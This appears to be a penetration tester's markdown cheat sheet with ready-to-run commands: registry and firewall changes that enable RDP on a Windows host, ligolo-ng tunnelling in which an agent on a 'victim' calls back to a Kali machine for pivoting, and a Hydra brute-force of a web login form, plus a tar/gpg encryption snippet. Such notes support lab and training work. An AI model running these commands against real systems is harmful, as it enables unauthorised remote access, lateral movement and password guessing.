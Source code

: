 Enable RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

# ligolo - https://github.com/nicocha30/ligolo-ng
```
## Compiling
- Use the CGO_ENABLED=0 flag when building because of issues with glibc

Public network: 192.168.211.x
Internal Network: 172.16.211.x
## On Kali:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up
- sudo ./proxy -selfcert

## On victim [linux]: 
- ./agent -connect 192.168.45.195:11601 -ignore-cert

## On Kali:
- sudo ip route add 172.16.211.0/24 dev ligolo
```
# Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.233.134 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Incorrect information"
```
- username is case sensitive...

# Tar - Encrypt / Decrypt
```
tar czvpf - ./[encdir] | gpg --symmetric --no-symkey-cache --cipher-algo aes256 -o [filename].tar.gz.gpg

gpg -d [decryptfilename] | tar -xvzf -
```



Blood // Water - Grandson